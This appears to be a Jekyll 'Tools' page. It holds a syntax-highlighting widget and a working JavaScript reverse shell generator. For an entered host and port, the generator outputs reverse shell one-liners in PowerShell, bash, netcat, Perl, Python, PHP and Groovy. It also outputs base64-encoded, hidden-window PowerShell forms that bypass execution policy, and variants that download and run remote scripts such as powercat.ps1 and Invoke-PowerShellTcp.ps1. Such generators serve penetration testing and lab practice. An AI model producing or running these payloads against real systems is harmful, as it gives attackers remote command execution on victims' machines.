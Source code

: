 ```yaml
---
title: "Tools"
layout: "post"
---
```


## Syntax Highlighting

<link rel="stylesheet" href="/assets/highlight/styles/monokai-sublime.css">
<script src="/assets/highlight/highlight.pack.js"></script>
<script>

    var g_style_url = "/assets/highlight/styles/";

    hljs.initHighlightingOnLoad(); // Initialize highlight.js 
  
    function autoApplyLanguageStyle() {

        lg_saved = sessionStorage.getItem("language"); // Get the current language from the local session

        if (lg_saved != null) { 
            for (i=0; i < document.getElementById("select_language").length; i++) {
                if (document.getElementById("select_language")[i].value == lg_saved) {
                    document.getElementById("select_language")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }

        st_saved = sessionStorage.getItem("style"); // Get the current style from the local session

        if (st_saved != null) {
            for (i=0; i < document.getElementById("select_style").length; i++) {
                if (document.getElementById("select_style")[i].value == st_saved) {
                    document.getElementById("select_style")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }
    }

    function escapeHtml(unsafe) {

        return unsafe
            .replace(/&/g, "&amp;")
            .replace(/</g, "&lt;")
            .replace(/>/g, "&gt;")
            .replace(/"/g, "&quot;")
            .replace(/'/g, "&#039;");

    }

    function updateStyle() {

        st = document.getElementById("select_style").value; // Get the select style 

        var links = document.getElementsByTagName("link");

        for (var i = links.length; i >= 0; i--) {

            if (links[i] && links[i].getAttribute("href") != null) {

                if (links[i].getAttribute("href").indexOf(g_style_url) != -1) {

                    var old_style_url = links[i].getAttribute("href")
                    var new_style_url = g_style_url + st + ".css"

                    if (old_style_url != new_style_url) {

                        var newlink = document.createElement("link");
                        newlink.setAttribute("rel", "stylesheet");
                        newlink.setAttribute("type", "text/css");
                        newlink.setAttribute("href", new_style_url);
                        links[i].parentNode.replaceChild(newlink, links[i])

                        sessionStorage.setItem("style", st); // Store selected style in the local session 
                    }
                }
            }
        }
    }
  
    function updateCode() {

        c = document.getElementById("textarea_src_code").value; // Get the source code to highlight
        lg = document.getElementById("select_language").value; // Get the selected language

        cr = document.getElementById("code_result"); // Get the preview element 
        cr.className = ""; // Remove any class that was previously added to this element 
        cr.classList.add("hljs"); // Add the default 'hljs" class to the element 
        cr.classList.add(lg); // Add the class corresponding to the selected language 

        sessionStorage.setItem("language", lg); // Store the selected language in the local session
                    
        document.getElementById("code_result").innerHTML = escapeHtml(c); // Copy the source code to the preview element 
        hljs.highlightBlock(document.getElementById("code_result")); // Syntax highlighting (highlight.js) 

    }

    function updateStyleAndCode() {
        updateStyle();
        updateCode();
    }
</script>

<div>
    <div name="code">
        <textarea id ="textarea_src_code" rows="8" spellcheck="false" style="width:100%" onchange="updateCode()">print("Hello World!")</textarea>
    </div>
    <div name="options">
    Language:
    <select id="select_language" style="width:200px" onchange="updateCode()">
        <option value="1c">1C</option>
        <option value="abnf">ABNF</option>
        <option value="accesslog">Access logs</option>
        <option value="ada">Ada</option>
        <option value="arm">ARM assembler</option>
        <option value="avrasm">AVR assembler</option>
        <option value="actionscript">ActionScript</option>
        <option value="apache">Apache</option>
        <option value="applescript">AppleScript</option>
        <option value="arcade">Arcade</option>
        <option value="asciidoc">AsciiDoc</option>
        <option value="aspectj">AspectJ</option>
        <option value="autohotkey">AutoHotkey</option>
        <option value="autoit">AutoIt</option>
        <option value="awk">Awk</option>
        <option value="axapta">Axapta</option>
        <option value="bash">Bash</option>
        <option value="basic">Basic</option>
        <option value="bnf">BNF</option>
        <option value="brainfuck">Brainfuck</option>
        <option value="csharp">C#</option>
        <option value="cpp">C++</option>
        <option value="cal">C/AL</option>
        <option value="cos">Cache Object Script</option>
        <option value="cmake">CMake</option>
        <option value="coq">Coq</option>
        <option value="csp">CSP</option>
        <option value="css">CSS</option>
        <option value="capnproto">Cap’n Proto</option>
        <option value="clojure">Clojure</option>
        <option value="coffeescript">CoffeeScript</option>
        <option value="crmsh">Crmsh</option>
        <option value="crystal">Crystal</option>
        <option value="dns">DNS Zone file</option>
        <option value="dos">DOS</option>
        <option value="dart">Dart</option>
        <option value="delphi">Delphi</option>
        <option value="diff">Diff</option>
        <option value="django">Django</option>
        <option value="dockerfile">Dockerfile</option>
        <option value="dsconfig">dsconfig</option>
        <option value="dts">DTS (Device Tree)</option>
        <option value="dust">Dust</option>
        <option value="elixir">Elixir</option>
        <option value="elm">Elm</option>
        <option value="erlang">Erlang</option>
        <option value="excel">Excel</option>
        <option value="fix">FIX</option>
        <option value="fortran">Fortran</option>
        <option value="gcode">G-Code</option>
        <option value="gams">Gams</option>
        <option value="gauss">GAUSS</option>
        <option value="gherkin">Gherkin</option>
        <option value="go">Go</option>
        <option value="golo">Golo</option>
        <option value="gradle">Gradle</option>
        <option value="groovy">Groovy</option>
        <option value=" XML">HTML</option>
        <option value="http">HTTP</option>
        <option value="haml">Haml</option>
        <option value="handlebars">Handlebars</option>
        <option value="haskell">Haskell</option>
        <option value="haxe">Haxe</option>
        <option value="hy">Hy</option>
        <option value=" TOML">Ini</option>
        <option value="inform7">Inform7</option>
        <option value="irpf90">IRPF90</option>
        <option value="json">JSON</option>
        <option value="java">Java</option>
        <option value="javascript">JavaScript</option>
        <option value="kotlin">Kotlin</option>
        <option value="leaf">Leaf</option>
        <option value="lasso">Lasso</option>
        <option value="less">Less</option>
        <option value="ldif">LDIF</option>
        <option value="lisp">Lisp</option>
        <option value="livecodeserver">LiveCode Server</option>
        <option value="livescript">LiveScript</option>
        <option value="lua">Lua</option>
        <option value="makefile">Makefile</option>
        <option value="markdown">Markdown</option>
        <option value="mathematica">Mathematica</option>
        <option value="matlab">Matlab</option>
        <option value="maxima">Maxima</option>
        <option value="mel">Maya Embedded Language</option>
        <option value="mercury">Mercury</option>
        <option value="mizar">Mizar</option>
        <option value="mojolicious">Mojolicious</option>
        <option value="monkey">Monkey</option>
        <option value="moonscript">Moonscript</option>
        <option value="n1ql">N1QL</option>
        <option value="nsis">NSIS</option>
        <option value="nginx">Nginx</option>
        <option value="nimrod">Nimrod</option>
        <option value="nix">Nix</option>
        <option value="ocaml">OCaml</option>
        <option value="objectivec">Objective C</option>
        <option value="glsl">OpenGL Shading Language</option>
        <option value="openscad">OpenSCAD</option>
        <option value="ruleslanguage">Oracle Rules Language</option>
        <option value="oxygene">Oxygene</option>
        <option value="pf">PF</option>
        <option value="php">PHP</option>
        <option value="parser3">Parser3</option>
        <option value="perl">Perl</option>
        <option value="plaintext">Plaintext</option>
        <option value="pony">Pony</option>
        <option value="pgsql">PostgreSQL & PL/pgSQL</option>
        <option value="powershell">PowerShell</option>
        <option value="processing">Processing</option>
        <option value="prolog">Prolog</option>
        <option value="properties">Properties</option>
        <option value="protobuf">Protocol Buffers</option>
        <option value="puppet">Puppet</option>
        <option value="python" selected>Python</option>
        <option value="profile">Python profiler results</option>
        <option value="k">Q</option>
        <option value="qml">QML</option>
        <option value="r">R</option>
        <option value="reasonml">ReasonML</option>
        <option value="rib">RenderMan RIB</option>
        <option value="rsl">RenderMan RSL</option>
        <option value="graph">Roboconf</option>
        <option value="ruby">Ruby</option>
        <option value="rust">Rust</option>
        <option value="sas">SAS</option>
        <option value="scss">SCSS</option>
        <option value="sql">SQL</option>
        <option value="p21">STEP Part 21</option>
        <option value="scala">Scala</option>
        <option value="scheme">Scheme</option>
        <option value="scilab">Scilab</option>
        <option value="shell">Shell</option>
        <option value="smali">Smali</option>
        <option value="smalltalk">Smalltalk</option>
        <option value="stan">Stan</option>
        <option value="stata">Stata</option>
        <option value="stylus">Stylus</option>
        <option value="subunit">SubUnit</option>
        <option value="swift">Swift</option>
        <option value="tcl">Tcl</option>
        <option value="tap">Test Anything Protocol</option>
        <option value="tex">TeX</option>
        <option value="thrift">Thrift</option>
        <option value="tp">TP</option>
        <option value="twig">Twig</option>
        <option value="typescript">TypeScript</option>
        <option value="vbnet">VB.Net</option>
        <option value="vbscript">VBScript</option>
        <option value="vhdl">VHDL</option>
        <option value="vala">Vala</option>
        <option value="verilog">Verilog</option>
        <option value="vim">Vim Script</option>
        <option value="x86asm">x86 Assembly</option>
        <option value="xl">XL</option>
        <option value="xquery">XQuery</option>
        <option value="yml">YAML</option>
        <option value="zephir">Zephir</option>
    </select>
    Style:
    <select id="select_style" style="width:200px" onchange="updateStyle()">
        <option value="a11y-dark">A11y Dark</option>
        <option value="a11y-light">A11y Light</option>
        <option value="agate">Agate</option>
        <option value="androidstudio">Androidstudio</option>
        <option value="an-old-hope">An Old Hope</option>
        <option value="arduino-light">Arduino Light</option>
        <option value="arta">Arta</option>
        <option value="ascetic">Ascetic</option>
        <option value="atelier-cave-dark">Atelier Cave Dark</option>
        <option value="atelier-cave-light">Atelier Cave Light</option>
        <option value="atelier-dune-dark">Atelier Dune Dark</option>
        <option value="atelier-dune-light">Atelier Dune Light</option>
        <option value="atelier-estuary-dark">Atelier Estuary Dark</option>
        <option value="atelier-estuary-light">Atelier Estuary Light</option>
        <option value="atelier-forest-dark">Atelier Forest Dark</option>
        <option value="atelier-forest-light">Atelier Forest Light</option>
        <option value="atelier-heath-dark">Atelier Heath Dark</option>
        <option value="atelier-heath-light">Atelier Heath Light</option>
        <option value="atelier-lakeside-dark">Atelier Lakeside Dark</option>
        <option value="atelier-lakeside-light">Atelier Lakeside Light</option>
        <option value="atelier-plateau-dark">Atelier Plateau Dark</option>
        <option value="atelier-plateau-light">Atelier Plateau Light</option>
        <option value="atelier-savanna-dark">Atelier Savanna Dark</option>
        <option value="atelier-savanna-light">Atelier Savanna Light</option>
        <option value="atelier-seaside-dark">Atelier Seaside Dark</option>
        <option value="atelier-seaside-light">Atelier Seaside Light</option>
        <option value="atelier-sulphurpool-dark">Atelier Sulphurpool Dark</option>
        <option value="atelier-sulphurpool-light">Atelier Sulphurpool Light</option>
        <option value="atom-one-dark">Atom One Dark</option>
        <option value="atom-one-dark-reasonable">Atom One Dark Reasonable</option>
        <option value="atom-one-light">Atom One Light</option>
        <option value="brown-paper">Brown Paper</option>
        <option value="codepen-embed">Codepen Embed</option>
        <option value="color-brewer">Color Brewer</option>
        <option value="darcula">Darcula</option>
        <option value="dark">Dark</option>
        <option value="darkula">Darkula</option>
        <option value="default">Default</option>
        <option value="docco">Docco</option>
        <option value="dracula">Dracula</option>
        <option value="far">Far</option>
        <option value="foundation">Foundation</option>
        <option value="github">Github</option>
        <option value="github-gist">Github Gist</option>
        <option value="gml">Gml</option>
        <option value="googlecode">Googlecode</option>
        <option value="gradient-dark">Gradient Dark</option>
        <option value="grayscale">Grayscale</option>
        <option value="gruvbox-dark">Gruvbox Dark</option>
        <option value="gruvbox-light">Gruvbox Light</option>
        <option value="hopscotch">Hopscotch</option>
        <option value="hybrid">Hybrid</option>
        <option value="idea">Idea</option>
        <option value="ir-black">Ir Black</option>
        <option value="isbl-editor-dark">Isbl Editor Dark</option>
        <option value="isbl-editor-light">Isbl Editor Light</option>
        <option value="kimbie.light">Kimbie Light</option>
        <option value="kimbie.dark">Kimbie Dark</option>
        <option value="lightfair">Lightfair</option>
        <option value="magula">Magula</option>
        <option value="mono-blue">Mono Blue</option>
        <option value="monokai">Monokai</option>
        <option value="monokai-sublime" selected>Monokai Sublime</option>
        <option value="night-owl">Night Owl</option>
        <option value="nord">Nord</option>
        <option value="obsidian">Obsidian</option>
        <option value="ocean">Ocean</option>
        <option value="paraiso-dark">Paraiso Dark</option>
        <option value="paraiso-light">Paraiso Light</option>
        <option value="pojoaque">Pojoaque</option>
        <option value="purebasic">Purebasic</option>
        <option value="qtcreator_dark">Qtcreator Dark</option>
        <option value="qtcreator_light">Qtcreator Light</option>
        <option value="railscasts">Railscasts</option>
        <option value="rainbow">Rainbow</option>
        <option value="routeros">Routeros</option>
        <option value="school-book">School Book</option>
        <option value="shades-of-purple">Shades Of Purple</option>
        <option value="solarized-dark">Solarized Dark</option>
        <option value="solarized-light">Solarized Light</option>
        <option value="sunburst">Sunburst</option>
        <option value="tomorrow">Tomorrow</option>
        <option value="tomorrow-night-blue">Tomorrow Night Blue</option>
        <option value="tomorrow-night-bright">Tomorrow Night Bright</option>
        <option value="tomorrow-night">Tomorrow Night</option>
        <option value="tomorrow-night-eighties">Tomorrow Night Eighties</option>
        <option value="vs2015">Vs2015</option>
        <option value="vs">Vs</option>
        <option value="xcode">Xcode</option>
        <option value="xt256">Xt256</option>
        <option value="zenburn">Zenburn</option>
    </select>
    <!--<button name="btn_highlight" style="width:150px" onclick="javascript:updateStyleAndCode()">Highlight!</button>-->
    </div>
    <div style="overflow:auto">
        <pre id="code_result"></pre>
    </div>
</div>
<script>
    autoApplyLanguageStyle();
    updateStyleAndCode();
</script>

---

## Reverse Shell Generator

<script>

    function encodeBash(payload) {
        return "bash -c \"{echo," + btoa(payload) + "}|{base64,-d}|{bash,-i}\"";
    }

    function encodePowerShell(payload) {

        // Convert payload string to byte array
        var array = new Uint8Array(payload.length*2);
        for (var i=0; i<array.length; i++) {
            if (i % 2 == 0) {
                array[i] = payload[i/2].charCodeAt(0);
            } else {
                array[i] = 0;
            }
        }

        // Convert byte array to binary string
        var bstr = "";
        for (var i=0; i<array.length; i++) {
            bstr += String.fromCharCode(array[i]);
        }

        // Convert binary string to base64 and create command line
        var result = "powershell -nop -noni -w Hidden -ep Bypass -e " + btoa(bstr);

        return result;
    }

    function updateOutput(eltName, eltValue, eltClass) {

        elt = document.getElementById(eltName);
        elt.className = "";
        elt.classList.add("hljs");
        elt.classList.add(eltClass);
        elt.innerHTML = escapeHtml(eltValue);
        hljs.highlightBlock(elt);

    }

    function updateCommandOutput() {

        var sl = document.getElementById("rs_select_language").value;
        var lhost = document.getElementById("rs_lhost").value;
        var lport = document.getElementById("rs_lport").value;

        if (sl != "" && sessionStorage.getItem("rs_select_language") != sl) {
            sessionStorage.setItem("rs_select_language", sl);
        }

        if (lhost != "" && sessionStorage.getItem("rs_lhost") != lhost) {
            sessionStorage.setItem("rs_lhost", lhost);
        }
        
        if (lport != "" && sessionStorage.getItem("rs_lport") != lport) {
            sessionStorage.setItem("rs_lport", lport);
        }

        var res_raw = "";
        var res_oneliner = "";
        var res_encoded = "";
        var res_raw_hljs = "";
        var res_oneliner_hljs = "";
        var res_encoded_hljs = "";

        if (sl == "psh") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "$c=New-Object Net.Sockets.TCPClient(\"" + lhost + "\"," + lport + ");\n$s=$c.GetStream();\n[byte[]]$b=0..65535|%{0};\nwhile(($i=$s.Read($b, 0, $b.Length)) -ne 0)\n{\n\t$d=(New-Object -t Text.ASCIIEncoding).GetString($b,0,$i-1);\n\tif($d -eq \"exit\"){break}\n\t$sb=if($i -gt 1) {try {iex \"$d 2>&1\" | Out-String} catch {$_ | Out-string}} else{\"\"};\n\t$sb2=$sb+\"PS \"+(pwd).Path+\"> \";\n\t$sdb=([text.encoding]::ASCII).GetBytes($sb2)\n\t$s.Write($sdb,0,$sdb.Length);\n\t$s.Flush()\n};\n$c.Close()";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powersploit") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/Invoke-PowerShellTcp.ps1');\nInvoke-powershellTcp -Reverse -IPAddress " + lhost + " -Port " + lport;
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powercat") { 
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "bash";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/powercat.ps1');\npowercat -c " + lhost + " -p " + lport + " -e cmd";
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";;
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "bash") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1";
            res_oneliner = "bash -c \"" + res_raw + "\"";
            res_encoded = encodeBash(res_raw);
        } else if (sl == "bash_mkfifo") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "rm /tmp/f;\nmkfifo /tmp/f;\ncat /tmp/f|/bin/sh -i 2>&1|nc " + lhost + " " + lport + " >/tmp/f";
            res_oneliner = res_raw.replace(/\n/g, "");
            res_encoded = encodeBash(res_raw);
        } else if (sl == "perl") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "use Socket;\n$i=\"" + lhost + "\";\n$p=" + lport + ";\nsocket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));\nif(connect(S,sockaddr_in($p,inet_aton($i)))){\n\topen(STDIN,\">&S\");\n\topen(STDOUT,\">&S\");\n\topen(STDERR,\">&S\");\n\texec(\"/bin/sh -i\");\n};";
            res_oneliner = "perl -e '" + res_raw.replace(/\t/g, "").replace(/\n/g, "") + "'";
            res_encoded = "perl -MMIME::Base64 -e \"eval(decode_base64('" + btoa(res_raw) + "'))\"";
        } else if (sl == "perl_web") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "curl http://" + lhost + "/rev.pl -o /tmp/rev.pl ; perl /tmp/rev.pl";
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "python") { 
            res_raw_hljs = "python";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "import socket,subprocess,os;\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\ns.connect((\"" + lhost + "\"," + lport + "));\nos.dup2(s.fileno(),0);\nos.dup2(s.fileno(),1);\nos.dup2(s.fileno(),2);\np=subprocess.call([\"/bin/sh\",\"-i\"]);";
            res_oneliner = "python -c '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = "python -c \"exec('" + btoa(res_raw) + "'.decode('base64'))\"";
        } else if (sl == "netcat") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "nc -e /bin/sh " + lhost + " " + lport;
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "php") { 
            res_raw_hljs = "php";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "$sock=fsockopen(\"" + lhost + "\"," + lport + ");\nexec(\"/bin/sh -i <&3 >&3 2>&3\");";
            res_oneliner = "php -r '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = encodeBash(res_oneliner);
        } else if (sl == "groovy") { 
            res_raw_hljs = "groovy";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "String host=\"10.10.10.10\";\nint port=1337;\nString cmd=\"/bin/sh\";\nProcess p=new ProcessBuilder(cmd).redirectErrorStream(true).start();\nSocket s=new Socket(host,port);\nInputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();\nOutputStream po=p.getOutputStream(),so=s.getOutputStream();\nwhile(!s.isClosed()){\n\twhile(pi.available()>0)so.write(pi.read());\n\twhile(pe.available()>0)so.write(pe.read());\n\twhile(si.available()>0)po.write(si.read());\n\tso.flush();\n\tpo.flush();\n\tThread.sleep(50);\n\ttry {\n\t\tp.exitValue();\n\t\tbreak;\n\t} catch (Exception e){}\n};\np.destroy();\ns.close();";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = "# No encoder for this payload";
        }

        updateOutput("rs_result_raw", res_raw, res_raw_hljs);
        updateOutput("rs_result_oneliner", res_oneliner, res_oneliner_hljs);
        updateOutput("rs_result_encoded", res_encoded, res_encoded_hljs);
    }
</script>
<div>
    LHOST: 
    <input name="rs_lhost" id="rs_lhost" style="width:150px" onchange="updateCommandOutput()"/>
    LPORT:
    <input name="rs_lport" id="rs_lport" style="width:75px" onchange="updateCommandOutput()"/>
    Language:
    <select id="rs_select_language" style="width:200px" onchange="updateCommandOutput()">
        <option value="psh">PowerShell</option>
        <option value="psh_powersploit">PowerShell (PowerSploit)</option>
        <option value="psh_powercat">PowerShell (Powercat)</option>
        <option value="bash">Bash</option>
        <option value="bash_mkfifo">Bash (mkfifo)</option>
        <option value="perl">Perl</option>
        <option value="perl_web">Perl (web server)</option>
        <option value="python">Python</option>
        <option value="netcat">Netcat</option>
        <option value="php">PHP</option>
        <option value="groovy">Groovy</option>
    </select>
</div>

#### One-liner

<pre id="rs_result_oneliner"></pre>


#### Encoded

<pre id="rs_result_encoded"></pre>

#### Raw

<pre id="rs_result_raw"></pre>

<script>
    
    if (sessionStorage.getItem("rs_select_language") != null) {
        for (i=0; i < document.getElementById("rs_select_language").length; i++) {
            if (document.getElementById("rs_select_language")[i].value == sessionStorage.getItem("rs_select_language")) {
                document.getElementById("rs_select_language")[i].selected = "true"; 
                break;
            }
        }
    }

    if (sessionStorage.getItem("rs_lhost") != null) {
        document.getElementById("rs_lhost").value = sessionStorage.getItem("rs_lhost");
    } else {
        document.getElementById("rs_lhost").value = "10.10.13.37";
    }
    
    if (sessionStorage.getItem("rs_lport") != null) {
        document.getElementById("rs_lport").value = sessionStorage.getItem("rs_lport");
    } else {
        document.getElementById("rs_lport").value = "1337";
    }

    updateCommandOutput();

</script>
